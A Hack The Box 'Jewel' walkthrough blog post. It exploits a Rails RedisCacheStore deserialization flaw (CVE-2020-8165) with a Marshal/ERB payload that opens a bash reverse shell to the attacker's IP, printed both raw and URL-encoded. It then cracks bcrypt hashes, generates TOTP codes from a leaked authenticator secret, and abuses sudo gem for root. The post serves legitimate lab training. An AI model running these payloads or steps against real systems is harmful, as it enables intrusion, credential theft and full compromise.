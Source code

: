 ```yaml
---
layout: post
author: Razor
title: "Hackthebox Jewel"
categories: [Hackthebox, Linux]
tags: [boot2root, custom exploitation, medium-box, privilage escalation, cve, web exploitation, enumeration]     # TAG names should always be lowercase
image: assets/htb_jewel/bg_1.png
toc: true
---
```


## Introduction
This is partical room from hackthebox entitled jewel with Medium difficulty. In this room we will learn about code analysis of a Ruby on Rails web application . This reveals an unsafe use of RedisCacheStore (CVE-2020-8165), which is leveraged to get RCE. After archiving a foothold, we get command execution in the context of the unprivileged user and in this room using oathtool for google authentication  . room link [here](https://tryhackme.com/room/enpass)

## Enumeration 

### Nmap 

First time we have to do is scanning the Machine :

```
$ sudo nmap 10.10.10.211 -sC -sV
[sudo] password for razor: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-16 01:19 WIB
Nmap scan report for 10.10.10.211
Host is up (0.25s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: 10.10.10.211 Git
|_Requested resource was http://10.10.10.211:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: Host: jewel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.72 seconds
```
from the results issued by nmap we get 3 open ports where port 22 is ssh, port 8000 is apache webserver, and port 8080 is nginx. now lets check port 8000 first and look at sumarry 

![img](/assets/htb_jewel/bg_2.png)

There is a git repo and we can download snapshot from this repository 
```
wget '10.10.10.211:8000/gitweb/?p=.git;a=snapshot;h=HEAD;sf=tgz' -O snapshot.tgz
tar xvzf snapshot.tgz

cd .git-5d6f436 
```

![img](/assets/htb_jewel/bg_3.png)

Let's take a look at this, Gemfile shows the version of rails which will be released in 2020. After I did some research I found a [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8165) where we can deserialization vulnerability leading to RCE.

The vulnerability is indicated by the presence of the raw: true option code, which can trigger untrusted string deserialization in marshal. here I am using grep to find vulnerable code : 

![img](/assets/htb_jewel/bg_4.png)

here we can see the output of grep where there are 2 vulnerabilities here, such as:

- users_controller.rb 
```bat
 def update
    @user = User.find(params[:id])
    if @user && @user == current_user
      cache = ActiveSupport::Cache::RedisCacheStore.new(url: "redis://127.0.0.1:6379/0")
      cache.delete("username_#{session[:user_id]}")
      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
      if @user.update(user_params)
        flash[:success] = "Your account was updated successfully"
        redirect_to articles_path
      else
        cache.delete("username_#{session[:user_id]}")
        render 'edit'
      end
    else
      flash[:danger] = "Not authorized"
      redirect_to articles_path
    end
  end
```
- application_controller.rb
```bat
def current_username
    if session[:user_id]
      cache = ActiveSupport::Cache::RedisCacheStore.new(url: "redis://127.0.0.1:6379/0")
      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
        @current_user = current_user
        @current_username = @current_user.username
      end
    else
      @current_username = "guest"
    end
    return @current_username
  end
```

This method is an update that is called when the user updates and sets the username_id value without any checking and cleaning. After i did a search here i saw user.rb which contains code like username must be unique between 3 to 25 characters long and contain only alphanumeric characters

```bat
class User < ActiveRecord::Base
 has_many :articles
 has_secure_password
 VALID_USER_REGEX = /\A[\w\d]+\z/
 VALID_EMAIL_REGEX = /\A[\w+\-.]+@[a-z\d\-.]+\.[a-z]+\z/i
 validates :username, presence: true, uniqueness: { case_sensitive: false }, length: { minimum: 3, maximum: 25 },
                      format: { with: VALID_USER_REGEX }
 validates :email, presence: true, length: { maximum: 105 }, uniqueness: { case_sensitive: false }, 
                   format: { with: VALID_EMAIL_REGEX }
 before_save { self.email = email.downcase }
end

```
This logic is very bad, because the serial marshal object is dangerous if set as the username, it is also written to the cache, and fails to update the database. Cached objects must be deleted immediately because no deletion will cause server errors and the operation to be aborted. this will allow the attacker to store arbitrary serial code and will trigger its deserialization which may result in code execution (RCE)

## Foothold

Vulnerability is in update profile user, we can register at here http://10.10.10.211:8080/signup. After that, click on profile and you can edit username

![img](/assets/htb_jewel/bg_5.png)

After registration you can also login. Now lets install rails and go to folder then we can build payload based on github 
```
$ sudo apt install rails
$ rails new ex
$ cd ex
$ rails console 
```
before we go in console you must set Netcat listener for revershell in another terminal, if you done let's build some payload : 
```
> code='`/bin/bash -c "bash -i &>/dev/tcp/10.10.14.54/4444 0>&1"`'
> erb=ERB.allocate
> erb.instance_variable_set:@src, code
> erb.instance_variable_set:@filename, "1"
> erb.instance_variable_set:@lineno, 1
> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb,:result)
> require'uri'
> puts URI.encode_www_form(payload:payload)
```
![img](/assets/htb_jewel/bg_6.png)

Now i have payload : 
```
payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3E%60%2Fbin%2Fbash+-c+%22bash+-i+%26%3E%2Fdev%2Ftcp%2F10.10.14.54%2F4444+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```
Now lets exploit this. in this case i'm using burpsuite to put the payload in username 

![img](/assets/htb_jewel/bg_7.png)
Before update user you must turn on intercept in burpsuite
![img](/assets/htb_jewel/bg_8.png)
change username to payload for revershell and after that you can forward and intercept of then look at your browser
![img](/assets/htb_jewel/bg_9.png)
in this case dont reload the page but just enter on address. then you must be getting a shell
![img](/assets/htb_jewel/bg_10.png)
Now we have user bill

## Privilage Escalation

After I went around and did the enumeration of the file system I found this `/var/backups/dump_2020-08-27.sql ` and i found username and hash of password : 

![img](/assets/htb_jewel/bg_11.png)

```
echo '$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW' > pas_hash
echo '$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO' >> pas_hash
```
In this case im using `hashcat` for crack the password : 

![img](/assets/htb_jewel/bg_12.png)

and I managed to get one of those two hashes 
```
$ hashcat -D 2 -m 3200 hashes ~/Documents/Wordlist/rockyou.txt --show                                      130 ⨯
$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW:spongebob
```
lets check this : 
```
bill@jewel:~$ sudo -l
[sudo] password for bill: 
Verification code: 
```
user using google authenticator and as you can see we have folder .google_authenticator
![img](/assets/htb_jewel/bg_13.png)

we can use this secret key to generate OTP on our machines 
```
apt install oathtool
oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4
```
![img](/assets/htb_jewel/bg.png)

> note : your time must be the same as the time in the jewel machine, you can change it by means of timedatectl or date -s

The GTFOBins repo provides an example of how this binary can be abused in order to get a root
shell. [Link](https://gtfobins.github.io/gtfobins/gem/#sudo)

`gem open -e "/bin/sh -c /bin/sh" rdoc`

![img](/assets/htb_jewel/root_flag.png)

Boom!!! We are root now

Happy hacking :D